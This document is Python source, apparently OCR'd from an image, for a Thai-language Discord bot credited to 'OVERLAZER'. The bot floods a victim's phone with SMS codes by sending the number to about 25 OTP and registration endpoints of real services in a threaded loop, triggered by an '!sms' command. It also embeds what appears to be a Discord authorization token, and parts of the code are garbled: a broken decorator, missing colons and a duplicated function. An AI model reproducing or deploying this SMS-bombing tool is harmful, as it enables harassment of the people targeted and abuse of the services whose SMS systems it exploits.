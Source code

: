 import discord,time
import discord
import requests
import time
from requests import post,Session
from concurrent.futures import ThreadPoolExecutor
from discord.ext import commands
from re import search
import threading

token = "Tokenbot"



prefix = "!"

bot = commands.Bot(command_prefix=prefix,help_command=None)
threading = ThreadPoolExecutor(max_workers=int(100000000))
useragent = "Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"
def cang01(phone):
    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": f"66{phone[1:]}"})
def cang02(phone):
    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-0{phone}")
    
def cang03(phone):
    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone": f"+66{phone[1:]}","type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName": "dec"}})
   
   
def cang1(phone):
    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
    
    
def cang2(phone):
    post("https://www.carsome.co.th/website/login/sendSMS",json={"username":phone,"optType":0})
    
def cang3(phone):
    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP",json={
  "on": {
    "value": phone,
    "country": "66"
  },
  "type": "mobile"
},headers={"accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8"}) 


def cang4(phone):
    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", data={"phone": f"{phone[1:]}","password":"123456789Az"})
    
    
def cang5(phone):
    post("https://gccircularlivingshop.com/sms/sendOtp", json={"grant_type":"otp","username": "+66"+phone,"password":"","client":"ecommerce"})
    
def cang6(phone):
    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value": phone,"country":"66"},"type":"mobile"})

def cang7(phone):
    post("https://m.lucabet168.com/api/register-otp",json={"brands_id":"609caede5a67e5001164b89d","agent_register":"60a22f7d233d2900110070d7","tel": phone})
    
def cang8(phone):
    post("https://store.boots.co.th/api/v1/guest/register/otp",json={"phone_number": phone})
    
 
    
def cang9(phone):
    post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})
    
def cang10(phone):
    post("https://ep789bet.net/auth/send_otp", data={"phone":f"{phone}"})
    
def cang11(phone):
    post("https://api2.1112.com/api/v1/otp/create",json={"phonenumber":phone,
        "language": "th"},headers={"accept": "application/json, text/plain, /",
	    "user-agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"})
    
    
    
    
def cang12(phone):
	post("https://discord.com/api/v9/users/@me/phone",json={
  "phone": "+66"+phone,
  "change_phone_reason": "guild_phone_required"
},headers={"authorization":"OTA4MjA2NjE4NjE1OTA2Mzg1.Ycz2Hw.TdQLC2lIwn6UQDl1xBsyJGLnjOw"})


def cang13(phone):
	post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", headers={"User-Agent": useragent}, data={"phone": phone})


def cang13(phone):
	post("https://api.scg-id.com/api/otp/send_otp", headers={"User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})
	

def cang14(phone):
	post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={"User-Agent": useragent})
	
def cang15(phone):
	post("https://www.wongnai.com/_api/guest.json?_v=6.056&locale=th&_a=phoneLogIn",data={"phoneno":phone,

"retrycount":"0"

    },headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang16(phone):
    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":phone,"password":"1111a1111A","name":phone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang17(phone):
    session = Session()
    searchItem = session.get("https://www.shopat24.com/register/").text
    ReqTOKEN = search("""<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)
    session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={"User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8","X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})
     
     
def cang18(phone):
    session = Session()
    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text
    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})
    
    

def sck(sphone):
    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":sphone,"password":"1111a1111A","name":sphone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang19(phone):
		post("https://vaccine.trueid.net/vacc-verify/api/getotp",json={"msisdn":phone,"function":"enroll"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
    
def cang20(phone):
	post("https://topping.truemoveh.com/api/get_request_otp",data={"mobile_number": phone,
	})

	
def cang21(phone):
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")

    
def cang22(phone):
	requests.get("https://api.quickcash8.com/v1/login/captcha?timestamp=1636359633&sign=3a11b88fbf58615099d15639e714afcc&token=&version=2.3.2&appsFlyerId=1636346593405-2457389151564256014&platform=android&channel_str=&phone="+phone+"&img_code=", headers = {"Host": "api.quickcash8.com", "Connection": "Keep-Alive", "Accept": "gzip", "User-Agent": "okhttp/3.11.0"})
	
def cang23(phone):
	 requests.get("https://www.baanandbeyond.com/registration_initiate?on%5Bcountry%5D=66&on%5Bvalue%5D="+phone+"&type=mobile")
	 
def cang24(phone):
	requests.get("https://findclone.ru/register?phone=+66"+phone)

    
    
 
    
def BBot(phone, amount):
    for i in range(amount):
       
        
        
        
        threading.submit(cang01,phone)
        threading.submit(cang02,phone)
        threading.submit(cang03,phone)
        threading.submit(cang1,phone)
        threading.submit(cang2,phone)
        threading.submit(cang3,phone)
        threading.submit(cang3,phone)
        threading.submit(cang4,phone)
        threading.submit(cang5,phone)
        threading.submit(cang6,phone)
        threading.submit(cang7,phone)
        threading.submit(cang8,phone)
        threading.submit(cang9,phone)
        threading.submit(cang10,phone)
        threading.submit(cang11,phone)
        threading.submit(cang12,phone)
        threading.submit(cang13,phone)
        threading.submit(cang14,phone)
        threading.submit(cang15,phone)
        threading.submit(cang16,phone)
        threading.submit(cang17,phone)
        threading.submit(cang18,phone)
        threading.submit(cang19,phone)
        threading.submit(cang20,phone)        
        threading.submit(cang21,phone)
        threading.submit(cang22,phone)
        threading.submit(cang23,phone)
        threading.submit(cang24,phone)
        
        
        
        
        


        
       
        
        
        
@bot.event
async def on_connect():
    time.sleep(0.001)
    print("ล็อกอินสำเร็จ")

































  
   
@bot.command(
async def sms(ctx, phone, amount:int)
   
    if (amount < 151)
    
      embes = discord.Embed(title="SmS", description="Bot by : OVERLAZER",color=0xff00ea)
      embes.add_field(name="กำลังยิงไปที่เบอร์",value=phone)
      embes.add_field(name="จำนวน",value=amount)
      ima = "https://images-ext-2.discordapp.net/external/-e54bjosEzIg4xVa5o1nvYBqeQOO14rnSH_b8WPQ5Ug/https/1.bp.blogspot.com/-pyvsg41F1Hs/YDItX1A_JeI/AAAAAAAAPDo/1VIVESnk9EsZBfTj_DuB0fHSXgMrkMuTwCLcBGAsYHQ/s320/ysHYNqP.gif"
      embes.set_image(url=ima)
    
      await ctx.channel.send(embed=embes)
    
		
    
      BBot(phone,amount)
    else:
    	await ctx.channel.send("ยิงไม่เกิน150")
    


		
		
		
		
		


	
	
    
    
    
    
@bot.command()
async def help(ctx):
	emBed = discord.Embed(title="Bot BY: OVERLAZER",description="วิธิใช้",color=0xff00ea)
	emBed.add_field(name="โหมดRUOK",value="!sms [เบอร์] [จำนวน1-150]")
	
	
	await ctx.channel.send(embed=emBed)
    
    
    
bot.run(token)
